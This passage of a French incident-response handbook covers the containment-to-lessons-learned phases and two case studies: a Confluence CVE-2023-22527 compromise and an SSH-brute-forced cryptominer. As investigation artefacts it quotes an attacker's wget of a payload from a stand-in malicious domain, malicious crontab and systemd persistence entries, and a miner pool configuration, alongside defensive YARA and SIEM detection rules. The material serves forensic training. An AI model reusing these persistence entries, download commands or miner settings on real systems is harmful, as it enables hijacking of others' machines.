    *   **Analyse des logs étendus:** Examiner les logs sur une période élargie pour identifier d'autres compromissions.
    *   **Mise en place de systèmes de substitution:** Déployer des systèmes de backup pour maintenir les opérations critiques.

3.  **Préservation des Preuves:**
    *   **Documentation photographique:** Prendre des photos des écrans, messages d'erreur, configurations.
    *   **Acquisition mémoire:** Utiliser des outils comme DumpIt, Belkasoft RAM Capturer, ou dd pour Linux.
    *   **Acquisition disque:** Créer des images forensiques avec des outils comme FTK Imager, dd, ou dcfldd.
    *   **Calcul de hash d'intégrité:** Générer MD5, SHA-1, SHA-256 pour toutes les preuves collectées.
    *   **Chain of Custody rigoureuse:** Documenter qui, quand, où, comment pour chaque preuve.

4.  **Coordination et Communication:**
    *   **Briefings réguliers:** Tenir informées toutes les parties prenantes de l'évolution.
    *   **Coordination avec les équipes IT:** Assurer que les mesures de confinement n'impactent pas excessivement les opérations.
    *   **Communication externe si nécessaire:** Informer clients, partenaires, autorités selon les obligations légales.

#### 🛠️ Outils et Technologies Recommandés

| Catégorie | Exemples d'Outils | Usage Principal |
|-----------|-------------------|-----------------|
| **Isolation Réseau** | Switches managés, Firewalls, VLANs | Segmentation et isolation |
| **Acquisition Mémoire** | DumpIt, Belkasoft RAM Capturer, LiME | Capture de la mémoire vive |
| **Acquisition Disque** | FTK Imager, dd, dcfldd, Guymager | Imagerie forensique |
| **Write Blockers** | Tableau, CRU WiebeTech, Logicube | Protection contre l'écriture |
| **Calcul de Hash** | md5sum, sha256sum, hashdeep | Vérification d'intégrité |
| **Documentation** | Caméras, formulaires Chain of Custody | Préservation des preuves |

#### ⚠️ Points de Vigilance

-   **Confinement trop agressif:** Peut détruire des preuves ou impacter les opérations.
-   **Confinement insuffisant:** Permet la propagation continue de la menace.
-   **Perte de preuves volatiles:** La mémoire doit être acquise en priorité.
-   **Coordination insuffisante:** Peut créer des conflits entre équipes.
-   **Documentation inadéquate:** Compromet la valeur légale des preuves.

---

### 🧹 Chapitre 8: Phase d'Éradication

> **"Éliminer la cause racine pour éviter la récidive."**

La phase d'éradication consiste à supprimer complètement la menace des systèmes affectés et à corriger les vulnérabilités qui ont permis l'incident. Cette phase nécessite une analyse approfondie pour s'assurer qu'aucun élément malveillant ne subsiste.

#### 🔑 Objectifs Clés de l'Éradication

- **Supprimer tous les éléments malveillants** (malware, backdoors, comptes compromis).
- **Corriger les vulnérabilités exploitées** pour prévenir une réinfection.
- **Renforcer la sécurité** des systèmes affectés.
- **Valider l'efficacité du nettoyage** avant la remise en service.

#### ✅ Actions Concrètes

1.  **Analyse Forensique Approfondie:**
    *   **Identification de tous les artefacts malveillants:** Fichiers, processus, services, tâches planifiées, clés de registre.
    *   **Analyse de la persistance:** Rechercher tous les mécanismes utilisés par l'attaquant pour maintenir l'accès.
    *   **Timeline reconstruction:** Établir la chronologie complète de l'attaque.
    *   **Identification des vulnérabilités exploitées:** Analyser comment l'attaquant a pénétré et progressé.
    *   **Recherche d'autres systèmes compromis:** Utiliser les IOCs découverts pour identifier d'autres victimes.

2.  **Suppression des Éléments Malveillants:**
    *   **Suppression des fichiers malveillants:** Utiliser des outils antimalware spécialisés ou suppression manuelle.
    *   **Nettoyage du registre Windows:** Supprimer les clés malveillantes (avec sauvegarde préalable).
    *   **Suppression des comptes compromis:** Désactiver ou supprimer les comptes créés par l'attaquant.
    *   **Nettoyage des tâches planifiées:** Supprimer les tâches malveillantes.
    *   **Suppression des services malveillants:** Arrêter et supprimer les services installés par l'attaquant.

3.  **Correction des Vulnérabilités:**
    *   **Application des patches de sécurité:** Mettre à jour tous les systèmes et applications.
    *   **Correction des configurations faibles:** Durcir les configurations selon les bonnes pratiques.
    *   **Mise à jour des mots de passe:** Changer tous les mots de passe potentiellement compromis.
    *   **Révocation et renouvellement des certificats:** Si des certificats ont été compromis.
    *   **Mise à jour des signatures antivirus/IDS:** Ajouter les nouveaux IOCs découverts.

4.  **Renforcement de la Sécurité:**
    *   **Déploiement de contrôles additionnels:** EDR, monitoring renforcé, restrictions d'accès.
    *   **Segmentation réseau améliorée:** Isoler davantage les systèmes critiques.
    *   **Mise en place de détections spécifiques:** Règles SIEM/IDS pour détecter des attaques similaires.
    *   **Formation ciblée des utilisateurs:** Sur les techniques utilisées dans l'attaque.

5.  **Validation du Nettoyage:**
    *   **Scans antimalware complets:** Utiliser plusieurs moteurs pour confirmer l'absence de malware.
    *   **Analyse comportementale:** Surveiller le comportement des systèmes nettoyés.
    *   **Tests de pénétration ciblés:** Vérifier que les vulnérabilités ont été corrigées.
    *   **Validation par des tiers:** Faire valider le nettoyage par des experts externes si nécessaire.

#### 🛠️ Outils et Technologies Recommandés

| Catégorie | Exemples d'Outils | Usage Principal |
|-----------|-------------------|-----------------|
| **Analyse Forensique** | Autopsy, EnCase, FTK, X-Ways | Investigation approfondie |
| **Suppression Malware** | Malwarebytes, ESET Online Scanner, Kaspersky Rescue Disk | Nettoyage spécialisé |
| **Analyse Registre** | RegRipper, Registry Explorer, RegEdit | Nettoyage registre Windows |
| **Gestion des Patches** | WSUS, SCCM, Ansible, Puppet | Déploiement automatisé |
| **Durcissement** | CIS Benchmarks, STIG, Nessus | Configuration sécurisée |
| **Validation** | Nmap, OpenVAS, Nessus, Qualys | Tests de vulnérabilités |

#### ⚠️ Points de Vigilance

-   **Éradication incomplète:** Risque de réinfection rapide.
-   **Suppression de données légitimes:** Attention aux faux positifs.
-   **Correction insuffisante des vulnérabilités:** L'attaquant peut revenir par le même chemin.
-   **Manque de validation:** Incertitude sur l'efficacité du nettoyage.
-   **Impact sur les opérations:** Les corrections peuvent affecter la disponibilité.

---

### 🔄 Chapitre 9: Phase de Récupération

> **"Restaurer en sécurité et surveiller attentivement."**

La phase de récupération consiste à remettre en service les systèmes nettoyés de manière sécurisée et à surveiller étroitement leur fonctionnement pour détecter toute activité résiduelle ou nouvelle attaque.

#### 🔑 Objectifs Clés de la Récupération

- **Restaurer les services et systèmes** de manière sécurisée et contrôlée.
- **Valider le bon fonctionnement** des systèmes restaurés.
- **Mettre en place une surveillance renforcée** pour détecter toute activité suspecte.
- **Assurer la continuité des activités** tout en maintenant un niveau de sécurité élevé.

#### ✅ Actions Concrètes

1.  **Planification de la Récupération:**
    *   **Priorisation des systèmes:** Identifier l'ordre de remise en service basé sur la criticité métier.
    *   **Plan de rollback:** Préparer des procédures de retour en arrière en cas de problème.
    *   **Fenêtres de maintenance:** Planifier la récupération pendant les heures de faible activité.
    *   **Coordination avec les équipes métier:** S'assurer que les utilisateurs sont prêts.

2.  **Restauration Progressive:**
    *   **Restauration depuis des sauvegardes propres:** Utiliser des backups antérieurs à l'incident et vérifiés comme sains.
    *   **Reconstruction complète si nécessaire:** Réinstaller les systèmes from scratch si la contamination est trop importante.
    *   **Remise en service par étapes:** Commencer par les systèmes les moins critiques pour tester les procédures.
    *   **Tests fonctionnels complets:** Vérifier que tous les services fonctionnent correctement.
    *   **Tests de sécurité:** S'assurer que les mesures de sécurité sont opérationnelles.

3.  **Surveillance Renforcée:**
    *   **Monitoring intensif:** Augmenter temporairement le niveau de surveillance sur les systèmes restaurés.
    *   **Alertes spécifiques:** Configurer des alertes pour détecter les IOCs de l'incident passé.
    *   **Analyse comportementale:** Surveiller les patterns d'utilisation pour détecter des anomalies.
    *   **Logs détaillés:** Activer un logging plus verbeux temporairement.

4.  **Validation et Tests:**
    *   **Tests de régression:** S'assurer que les fonctionnalités métier sont intactes.
    *   **Tests de performance:** Vérifier que les performances sont acceptables.
    *   **Tests de sécurité:** Effectuer des scans de vulnérabilités et des tests de pénétration.
    *   **Validation utilisateur:** Faire tester les systèmes par les utilisateurs finaux.

5.  **Communication et Formation:**
    *   **Communication de la remise en service:** Informer tous les utilisateurs des systèmes disponibles.
    *   **Formation sur les nouvelles mesures:** Expliquer les changements de sécurité aux utilisateurs.
    *   **Sensibilisation renforcée:** Rappeler les bonnes pratiques de sécurité.
    *   **Retour d'expérience préliminaire:** Partager les premières leçons apprises.

#### 🛠️ Outils et Technologies Recommandés

| Catégorie | Exemples d'Outils | Usage Principal |
|-----------|-------------------|-----------------|
| **Sauvegarde/Restauration** | Veeam, Commvault, Acronis, rsync | Restauration de données |
| **Déploiement Système** | SCCM, Ansible, Puppet, Chef | Reconstruction automatisée |
| **Monitoring Renforcé** | Nagios, Zabbix, PRTG, SolarWinds | Surveillance intensive |
| **Tests de Sécurité** | Nessus, OpenVAS, Qualys, Rapid7 | Validation sécuritaire |
| **Tests de Performance** | LoadRunner, JMeter, Gatling | Validation performance |
| **Gestion de Configuration** | Git, Ansible, Terraform | Contrôle des changements |

#### ⚠️ Points de Vigilance

-   **Récupération précipitée:** Risque de remettre en service des systèmes encore compromis.
-   **Surveillance insuffisante:** Peut manquer une réinfection ou une activité résiduelle.
-   **Tests incomplets:** Risque de dysfonctionnements en production.
-   **Communication inadéquate:** Peut créer de la confusion chez les utilisateurs.
-   **Retour aux anciennes pratiques:** Risque de reproduire les conditions de l'incident initial.

---

### 📝 Chapitre 10: Phase de Leçons Apprises

> **"Celui qui ne tire pas les leçons de l'histoire est condamné à la répéter."**

La phase de leçons apprises est souvent négligée mais elle est cruciale pour améliorer continuellement la posture de sécurité et la capacité de réponse à incident de l'organisation.

#### 🔑 Objectifs Clés des Leçons Apprises

- **Analyser objectivement** la gestion de l'incident.
- **Identifier les points d'amélioration** dans les processus, outils et compétences.
- **Mettre à jour** les plans, procédures et formations.
- **Partager les connaissances** avec la communauté de sécurité.
- **Mesurer l'efficacité** de la réponse à incident.

#### ✅ Actions Concrètes

1.  **Réunion de Retour d'Expérience (Post-Mortem):**
    *   **Organiser dans les 2 semaines** suivant la résolution de l'incident.
    *   **Inclure toutes les parties prenantes:** Équipe DFIR, IT, métier, direction, externes.
    *   **Adopter une approche "blameless":** Se concentrer sur les processus, pas les personnes.
    *   **Utiliser une facilitation externe** si l'incident était majeur ou sensible.

2.  **Analyse Détaillée de l'Incident:**
    *   **Reconstitution chronologique complète:** Timeline détaillée de l'attaque et de la réponse.
    *   **Analyse des causes racines:** Identifier les vulnérabilités techniques, organisationnelles et humaines.
    *   **Évaluation de l'impact:** Quantifier les coûts directs et indirects.
    *   **Analyse de l'efficacité de la réponse:** Mesurer les temps de réponse, l'efficacité des actions.

3.  **Identification des Améliorations:**
    *   **Processus et procédures:** Identifier les lacunes dans les plans et playbooks.
    *   **Outils et technologies:** Évaluer l'efficacité des solutions de sécurité.
    *   **Compétences et formation:** Identifier les besoins de formation.
    *   **Communication et coordination:** Améliorer les flux d'information.
    *   **Détection et prévention:** Renforcer les capacités de détection précoce.

4.  **Plan d'Action et Suivi:**
    *   **Prioriser les améliorations:** Basé sur l'impact et la faisabilité.
    *   **Assigner des responsables:** Pour chaque action d'amélioration.
    *   **Définir des échéances:** Calendrier réaliste de mise en œuvre.
    *   **Mettre en place un suivi:** Réunions régulières pour suivre l'avancement.

5.  **Documentation et Partage:**
    *   **Rapport final d'incident:** Document complet pour les archives et la direction.
    *   **Mise à jour des procédures:** Intégrer les leçons apprises dans les plans.
    *   **Partage avec la communauté:** Contribuer aux bases de connaissances sectorielles.
    *   **Formation des équipes:** Intégrer les cas réels dans les formations.

#### 📊 Métriques et KPIs à Analyser

| Métrique | Description | Objectif Typique |
|----------|-------------|------------------|
| **MTTD (Mean Time To Detection)** | Temps entre le début de l'incident et sa détection | < 24 heures |
| **MTTR (Mean Time To Response)** | Temps entre la détection et le début de la réponse | < 4 heures |
| **MTTC (Mean Time To Containment)** | Temps entre la détection et le confinement | < 2 heures |
| **MTTE (Mean Time To Eradication)** | Temps entre le confinement et l'éradication complète | < 48 heures |
| **MTTR (Mean Time To Recovery)** | Temps entre l'éradication et la récupération complète | < 72 heures |
| **Coût Total de l'Incident** | Impact financier direct et indirect | Minimiser |
| **Nombre de Systèmes Affectés** | Étendue de la compromission | Minimiser |
| **Efficacité de la Détection** | % d'incidents détectés par les outils vs. signalements externes | > 80% interne |

#### 🛠️ Outils et Méthodes Recommandés

| Catégorie | Exemples d'Outils/Méthodes | Usage Principal |
|-----------|----------------------------|-----------------|
| **Facilitation** | Méthode 5 Whys, Fishbone Diagram, Timeline Analysis | Analyse des causes racines |
| **Documentation** | Confluence, SharePoint, Wiki | Capitalisation des connaissances |
| **Gestion de Projet** | Jira, Trello, Asana | Suivi des actions d'amélioration |
| **Métriques** | Tableau de bord SIEM, Excel, Power BI | Mesure de l'efficacité |
| **Formation** | Plateformes e-learning, simulations | Amélioration des compétences |

#### ⚠️ Points de Vigilance

-   **Négligence de cette phase:** Perte d'opportunités d'amélioration.
-   **Approche punitive:** Peut inhiber la transparence et l'apprentissage.
-   **Manque de suivi:** Les actions d'amélioration ne sont pas mises en œuvre.
-   **Documentation insuffisante:** Perte de la mémoire organisationnelle.
-   **Partage limité:** Les autres équipes ne bénéficient pas des leçons apprises.

---


## 💼 PARTIE III - CAS PRATIQUES DÉTAILLÉS

> **Objectif:** Fournir des scénarios réels d'incidents avec des procédures d'investigation détaillées, des techniques d'analyse spécifiques et des leçons apprises pour chaque type de menace.

### 🌐 Chapitre 13: Compromission de Serveurs Web

#### 📋 Cas Pratique: Exploitation Confluence CVE-2023-22527

**🏢 Contexte Organisationnel:**
- **Secteur:** Services informatiques (150 employés)
- **Infrastructure:** Serveur Confluence 8.3.2 exposé sur Internet
- **Détection:** Alertes de trafic réseau anormal vers des IPs externes
- **Impact Initial:** Accès non autorisé aux espaces de documentation sensible

#### 🔍 Symptômes et Indicateurs Initiaux

**Alertes Techniques Observées:**
- 🚨 **Connexions sortantes suspectes** vers 185.234.72.45:443
- 📊 **Pic d'utilisation CPU** sur le serveur Confluence (>90%)
- 🔍 **Requêtes HTTP anormales** dans les logs Apache
- 📁 **Création de fichiers** dans /tmp/ avec des noms aléatoires
- 🌐 **Résolution DNS** vers des domaines récemment enregistrés

**Premiers Artefacts Identifiés:**
```bash
# Logs Apache montrant l'exploitation
192.168.1.100 - - [10/Jun/2025:09:15:23 +0000] "POST /template/aui/text-inline.vm HTTP/1.1" 200 1337
192.168.1.100 - - [10/Jun/2025:09:15:24 +0000] "GET /pages/createpage-entervariables.action?templateId=557057 HTTP/1.1" 200 2048

# Processus suspects identifiés
PID 15847: /tmp/.java_update (processus non légitime)
PID 15892: wget http://malicious-domain.com/payload.sh
```

#### 🛠️ Investigation Technique Détaillée

##### Phase 1: Acquisition et Préservation (0-2h)

**1. Isolation Immédiate:**
```bash
# Isolation réseau du serveur Confluence
sudo iptables -A INPUT -j DROP
sudo iptables -A OUTPUT -j DROP
sudo iptables -I INPUT 1 -s 192.168.1.0/24 -p tcp --dport 22 -j ACCEPT
sudo iptables -I OUTPUT 1 -d 192.168.1.0/24 -p tcp --sport 22 -j ACCEPT
```

**2. Acquisition Mémoire:**
```bash
# Dump mémoire avec LiME (Linux Memory Extractor)
sudo insmod lime-4.15.0-generic.ko "path=/mnt/usb/confluence-memory.lime format=lime"
sudo dd if=/dev/fmem of=/mnt/usb/confluence-memory.dd bs=1M
```

**3. Préservation des Logs:**
```bash
# Sauvegarde des logs critiques
sudo cp -r /var/log/apache2/ /mnt/evidence/apache-logs/
sudo cp -r /var/log/atlassian/ /mnt/evidence/confluence-logs/
sudo cp /var/log/syslog /mnt/evidence/
sudo cp /var/log/auth.log /mnt/evidence/
```

##### Phase 2: Analyse Forensique (2-8h)

**1. Analyse des Logs d'Exploitation:**
```bash
# Recherche des patterns d'exploitation CVE-2023-22527
grep -r "template.*vm" /var/log/apache2/access.log
grep -r "createpage-entervariables" /var/log/apache2/access.log
grep -r "templateId" /var/log/apache2/access.log

# Analyse des User-Agents suspects
awk '{print $12}' /var/log/apache2/access.log | sort | uniq -c | sort -nr
```

**2. Investigation des Artefacts Système:**
```bash
# Recherche de fichiers créés pendant la période d'incident
find /tmp -type f -newermt "2025-06-10 09:00" -ls
find /var/tmp -type f -newermt "2025-06-10 09:00" -ls
find /dev/shm -type f -newermt "2025-06-10 09:00" -ls

# Analyse des processus en cours
ps aux --forest
netstat -tulpn | grep ESTABLISHED
lsof -i -P -n
```

**3. Analyse des Connexions Réseau:**
```bash
# Extraction des connexions suspectes
netstat -an | grep 185.234.72.45
ss -tuln | grep :443
tcpdump -r /var/log/network.pcap host 185.234.72.45
```

#### 📊 Timeline de l'Attaque Reconstituée

| Timestamp | Événement | Artefact | Technique MITRE ATT&CK |
|-----------|-----------|----------|------------------------|
| **09:15:23** | Exploitation initiale | POST /template/aui/text-inline.vm | T1190 - Exploit Public-Facing Application |
| **09:15:24** | Template injection | createpage-entervariables.action | T1059.004 - Command and Scripting Interpreter |
| **09:15:45** | Téléchargement payload | wget malicious-domain.com/payload.sh | T1105 - Ingress Tool Transfer |
| **09:16:12** | Exécution payload | /tmp/.java_update | T1059.004 - Unix Shell |
| **09:16:30** | Établissement persistance | Crontab entry | T1053.003 - Cron |
| **09:17:00** | Reconnaissance interne | netstat, ps, whoami | T1057 - Process Discovery |
| **09:18:15** | Collecte de données | find /opt/atlassian -name "*.xml" | T1005 - Data from Local System |
| **09:20:30** | Exfiltration | curl -X POST data.txt | T1041 - Exfiltration Over C2 Channel |

#### 🎯 Techniques d'Analyse Spécialisées

**1. Analyse de la Vulnérabilité CVE-2023-22527:**
```bash
# Vérification de la version Confluence
grep -r "version" /opt/atlassian-confluence/confluence/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.properties

# Recherche des templates modifiés
find /opt/atlassian-confluence/ -name "*.vm" -exec grep -l "Runtime\|ProcessBuilder\|exec" {} \;
```

**2. Analyse des Payloads:**
```bash
# Déobfuscation des scripts téléchargés
base64 -d /tmp/.java_update > /tmp/decoded_payload
strings /tmp/decoded_payload | grep -E "(http|ftp|tcp|udp)"
```

**3. Recherche de Persistance:**
```bash
# Vérification des mécanismes de persistance
crontab -l -u confluence
systemctl list-units --type=service --state=active | grep -v "loaded active running"
find /etc/systemd/system/ -name "*.service" -newermt "2025-06-10 09:00"
```

#### 🛡️ Actions de Réponse Spécifiques

**1. Confinement Immédiat:**
- ✅ **Isolation réseau** - Serveur déconnecté du réseau de production
- ✅ **Arrêt service Confluence** - Prévention d'exploitation continue
- ✅ **Blocage IOCs** - IPs et domaines malveillants bloqués au firewall
- ✅ **Notification utilisateurs** - Indisponibilité temporaire du service

**2. Éradication Complète:**
- ✅ **Patch CVE-2023-22527** - Mise à jour vers Confluence 8.5.4
- ✅ **Suppression artefacts** - Nettoyage des fichiers malveillants
- ✅ **Réinitialisation credentials** - Changement mots de passe administrateurs
- ✅ **Durcissement configuration** - Restriction accès réseau

**3. Récupération Sécurisée:**
- ✅ **Restauration depuis backup** - Données antérieures à l'incident
- ✅ **Tests de sécurité** - Scan vulnérabilités post-patch
- ✅ **Monitoring renforcé** - Surveillance accrue pendant 30 jours
- ✅ **Formation équipes** - Sensibilisation aux nouvelles menaces

#### 📝 Leçons Apprises et Recommandations

**🔍 Causes Racines Identifiées:**
1. **Gestion des patches insuffisante** - CVE critique non appliqué rapidement
2. **Exposition Internet non nécessaire** - Serveur accessible publiquement
3. **Monitoring insuffisant** - Détection tardive de l'exploitation
4. **Segmentation réseau faible** - Propagation potentielle facilitée

**🎯 Améliorations Mises en Place:**
- 🔄 **Processus de patch management** - Délai maximum 72h pour CVE critiques
- 🌐 **VPN d'accès obligatoire** - Plus d'exposition directe Internet
- 📊 **Alertes comportementales** - Détection d'anomalies sur serveurs critiques
- 🛡️ **Micro-segmentation** - Isolation des serveurs applicatifs

---

### ⛏️ Chapitre 15: Cryptominers et Malware Persistant

#### 📋 Cas Pratique: Infection Cryptominer via Compromission SSH

**🏢 Contexte Organisationnel:**
- **Secteur:** Recherche universitaire (serveurs de calcul Linux)
- **Infrastructure:** Cluster de 50 serveurs Ubuntu 20.04 LTS
- **Détection:** Alertes de consommation CPU anormale (>95% constant)
- **Impact:** Dégradation performances, surcoût électrique estimé 15k€/mois

#### 🔍 Symptômes et Indicateurs Initiaux

**Alertes Système Observées:**
- 🔥 **CPU Usage critique** - Utilisation constante >95% sur multiple serveurs
- ⚡ **Consommation électrique** - Augmentation de 300% sur le datacenter
- 🌡️ **Température élevée** - Surchauffe des serveurs de calcul
- 🐌 **Performance dégradée** - Jobs de recherche 10x plus lents
- 🔍 **Processus inconnus** - Binaires avec noms aléatoires

**Premiers Artefacts Identifiés:**
```bash
# Processus suspects consommant CPU
PID 23847: /tmp/.X11-unix/.rsync (100% CPU)
PID 24156: /var/tmp/.font-cache (98% CPU)
PID 24892: /dev/shm/kthreadd (95% CPU)

# Connexions réseau suspectes
tcp 0 0 192.168.10.15:45678 pool.supportxmr.com:3333 ESTABLISHED
tcp 0 0 192.168.10.23:56789 xmr-eu1.nanopool.org:14444 ESTABLISHED
```

#### 🛠️ Investigation Technique Détaillée

##### Phase 1: Identification et Triage (0-1h)

**1. Analyse Rapide des Processus:**
```bash
# Identification des processus suspects
top -b -n 1 | head -20
ps aux --sort=-%cpu | head -20
htop -d 1

# Analyse des connexions réseau
netstat -tulpn | grep -E "(3333|4444|8080|14444)"
ss -tuln | grep -E "supportxmr|nanopool|minergate"
```

**2. Vérification de l'Intégrité Système:**
```bash
# Vérification des binaires système modifiés
rpm -Va | grep "^..5"  # Pour CentOS/RHEL
debsums -c           # Pour Debian/Ubuntu

# Recherche de fichiers récemment modifiés
find /tmp /var/tmp /dev/shm -type f -mtime -1 -ls
find /usr/bin /usr/sbin -type f -mtime -7 -ls
```

##### Phase 2: Analyse Forensique Approfondie (1-6h)

**1. Analyse des Mécanismes de Persistance:**
```bash
# Vérification des tâches cron
crontab -l -u root
cat /etc/crontab
ls -la /etc/cron.*/*
find /var/spool/cron -type f -exec cat {} \;

# Analyse des services système
systemctl list-units --type=service --state=active
find /etc/systemd/system/ -name "*.service" -mtime -30
```

**2. Investigation des Vecteurs d'Infection:**
```bash
# Analyse des logs SSH pour brute force
grep "Failed password" /var/log/auth.log | tail -100
grep "Accepted password" /var/log/auth.log | tail -50
lastlog | grep -v "Never"

# Recherche de backdoors SSH
cat ~/.ssh/authorized_keys
find /home -name "authorized_keys" -exec cat {} \;
```

**3. Analyse du Malware:**
```bash
# Extraction et analyse des binaires suspects
cp /tmp/.X11-unix/.rsync /mnt/evidence/malware_sample
file /mnt/evidence/malware_sample
strings /mnt/evidence/malware_sample | grep -E "(pool|mining|xmr|btc)"
hexdump -C /mnt/evidence/malware_sample | head -50
```

#### 📊 Analyse des Techniques d'Attaque

**1. Vecteur d'Infection - Brute Force SSH:**
```bash
# Analyse des tentatives de connexion
awk '/Failed password/ {print $11}' /var/log/auth.log | sort | uniq -c | sort -nr | head -20
awk '/Accepted password/ {print $9, $11}' /var/log/auth.log | tail -10
```

**2. Mécanismes de Persistance Identifiés:**
```bash
# Crontab malveillant découvert
*/5 * * * * /tmp/.X11-unix/.rsync >/dev/null 2>&1
@reboot /var/tmp/.font-cache >/dev/null 2>&1

# Service systemd malveillant
[Unit]
Description=System Font Cache
After=network.target

[Service]
Type=forking
ExecStart=/var/tmp/.font-cache
Restart=always

[Install]
WantedBy=multi-user.target
```

**3. Configuration Mining Découverte:**
```json
{
  "pools": [
    {
      "url": "pool.supportxmr.com:3333",
      "user": "43XvP7Y8...wallet_address",
      "pass": "x",
      "keepalive": true
    }
  ],
  "cpu": {
    "enabled": true,
    "huge-pages": true,
    "hw-aes": null,
    "priority": null,
    "max-threads-hint": 95
  }
}
```

#### 🎯 Techniques d'Éradication Spécialisées

**1. Suppression Complète du Malware:**
```bash
# Arrêt des processus malveillants
pkill -f ".rsync"
pkill -f ".font-cache"
pkill -f "kthreadd"

# Suppression des fichiers malveillants
rm -f /tmp/.X11-unix/.rsync
rm -f /var/tmp/.font-cache
rm -f /dev/shm/kthreadd
rm -f /etc/systemd/system/font-cache.service
```

**2. Nettoyage de la Persistance:**
```bash
# Nettoyage des crontabs
crontab -r -u root
sed -i '/\.rsync\|\.font-cache/d' /etc/crontab

# Désactivation des services malveillants
systemctl stop font-cache.service
systemctl disable font-cache.service
systemctl daemon-reload
```

**3. Durcissement SSH:**
```bash
# Configuration SSH sécurisée
echo "PermitRootLogin no" >> /etc/ssh/sshd_config
echo "PasswordAuthentication no" >> /etc/ssh/sshd_config
echo "MaxAuthTries 3" >> /etc/ssh/sshd_config
echo "AllowUsers admin researcher" >> /etc/ssh/sshd_config
systemctl restart sshd
```

#### 🛡️ Mesures de Prévention Déployées

**1. Monitoring et Détection:**
```bash
# Script de monitoring CPU/Mining
#!/bin/bash
# Détection de processus mining
ps aux | awk '{if($3 > 80) print $2, $11}' | while read pid cmd; do
    if [[ $cmd =~ (xmrig|cpuminer|minerd) ]] || netstat -p 2>/dev/null | grep $pid | grep -E "(3333|4444|8080)"; then
        echo "ALERT: Potential mining process detected - PID: $pid CMD: $cmd"
        # kill -9 $pid  # Décommenter pour kill automatique
    fi
done
```

**2. Règles de Détection YARA:**
```yara
rule CryptoMiner_Generic {
    meta:
        description = "Détection générique de cryptominers"
        author = "DFIR Team"
        date = "2025-06-10"
    
    strings:
        $pool1 = "pool.supportxmr.com"
        $pool2 = "nanopool.org"
        $pool3 = "minergate.com"
        $config1 = "max-threads-hint"
        $config2 = "huge-pages"
        $wallet = /4[0-9AB][1-9A-HJ-NP-Za-km-z]{93}/
    
    condition:
        any of ($pool*) or 
        (any of ($config*) and $wallet)
}
```

**3. Alertes SIEM Configurées:**
```sql
-- Détection connexions vers pools de mining
index=network sourcetype=firewall 
| search dest_port IN (3333,4444,8080,14444) 
| eval mining_pools = case(
    match(dest_host, "supportxmr|nanopool|minergate"), "MINING_POOL",
    1=1, "UNKNOWN"
)
| where mining_pools="MINING_POOL"
| alert
```

#### 📈 Impact et Métriques

**Coûts Identifiés:**
- 💰 **Surcoût électrique:** 15,000€/mois pendant 3 mois = 45,000€
- ⏱️ **Perte productivité:** 200 heures de calcul perdues = 50,000€ équivalent
- 🔧 **Coût de remédiation:** 80 heures ingénieur = 8,000€
- **Total estimé:** 103,000€

**Métriques de Performance:**
- 📊 **MTTD:** 72 heures (détection via alertes consommation)
- 📊 **MTTR:** 4 heures (réponse équipe DFIR)
- 📊 **MTTC:** 2 heures (isolation des serveurs infectés)
- 📊 **MTTE:** 24 heures (éradication complète sur 50 serveurs)

#### 📝 Leçons Apprises Critiques

**🔍 Vulnérabilités Exploitées:**
1. **Authentification SSH faible** - Mots de passe par défaut/faibles
2. **Absence de monitoring comportemental** - Pas d'alertes sur CPU usage
3. **Segmentation réseau insuffisante** - Propagation facilitée
4. **Gestion des comptes privilégiés** - Comptes root avec SSH activé

**🎯 Améliorations Implémentées:**
- 🔐 **Authentification par clés SSH uniquement** - Désactivation passwords
- 📊 **Monitoring temps réel CPU/réseau** - Alertes <30 secondes
- 🛡️ **Fail2ban configuré** - Blocage automatique brute force
- 🔍 **EDR déployé** - Détection comportementale avancée
- 📋 **Audit sécurité trimestriel** - Vérification configurations

---


## 🎨 PARTIE IV - ÉLÉMENTS VISUELS ET DIAGRAMMES

> **Objectif:** Fournir des supports visuels professionnels pour faciliter la compréhension des concepts DFIR, des processus d'investigation et des cas pratiques.

### 📊 Diagrammes de Processus Créés

#### 1. 🔄 Méthodologie SANS PICERL


**Description:** Diagramme circulaire illustrant les 6 phases de la méthodologie SANS PICERL avec les actions clés de chaque étape.

**Utilisation:** 
- Formation des équipes DFIR
- Référence rapide pendant les incidents
- Présentation aux parties prenantes

---

#### 2. 🌐 Architecture Réseau Compromis


**Description:** Schéma d'infrastructure montrant un environnement compromis avec les vecteurs d'attaque, points d'isolation et de surveillance.

**Utilisation:**
- Compréhension des mouvements latéraux
- Planification des stratégies de confinement
- Formation sur la segmentation réseau

---

#### 3. 🔗 Chaîne de Custody


**Description:** Processus complet de préservation des preuves numériques de l'identification à la présentation en justice.

**Utilisation:**
- Formation sur les procédures légales
- Guide pour les investigations forensiques
- Référence pour la documentation

---

#### 4. 🔐 Anatomie d'Attaque Ransomware


**Description:** Timeline détaillée d'une attaque BlackSuit avec les techniques MITRE ATT&CK et les timestamps.

**Utilisation:**
- Analyse de cas pratiques
- Formation sur les TTPs ransomware
- Développement de détections

---

#### 5. 🛠️ Workflow Outils Forensiques


**Description:** Écosystème des outils DFIR organisés par catégorie avec leur intégration dans le processus d'investigation.

**Utilisation:**
- Sélection d'outils appropriés
- Formation technique des analystes
- Planification des acquisitions

---

#### 6. 📈 Tableau de Bord Métriques DFIR


**Description:** Dashboard exécutif présentant les KPIs clés de performance DFIR avec indicateurs visuels.

**Utilisation:**
- Reporting à la direction
- Suivi de l'amélioration continue
- Benchmarking des performances

---

### 🎯 Guide d'Utilisation des Visuels

#### 📋 Pour les Formations
- **Diagramme PICERL:** Introduction aux méthodologies
- **Architecture Réseau:** Compréhension des environnements
- **Chaîne de Custody:** Aspects légaux et procéduraux

#### 🚨 Pour les Incidents
- **Workflow Outils:** Sélection rapide d'outils
- **Anatomie d'Attaque:** Comparaison avec cas réels
- **Architecture Réseau:** Planification du confinement

#### 📊 Pour le Management
- **Métriques Dashboard:** Reporting de performance
- **Chaîne de Custody:** Conformité légale
- **Processus PICERL:** Vue d'ensemble méthodologique

### 🖼️ Standards Visuels Adoptés

#### 🎨 Palette de Couleurs
- **🔵 Bleu:** Processus normaux, outils, documentation
- **🔴 Rouge:** Menaces, alertes, éléments malveillants
- **🟢 Vert:** Succès, validation, éléments sécurisés
- **🟡 Jaune:** Avertissements, attention, en cours
- **🟣 Violet:** Analyse, investigation, forensique

#### 📐 Conventions Graphiques
- **Flèches:** Direction du flux, progression temporelle
- **Icônes:** Représentation intuitive des concepts
- **Codes couleur:** Statut et criticité
- **Typographie:** Lisibilité et hiérarchie visuelle

---


## 📚 Références et Bibliographie

### 📖 Standards et Frameworks

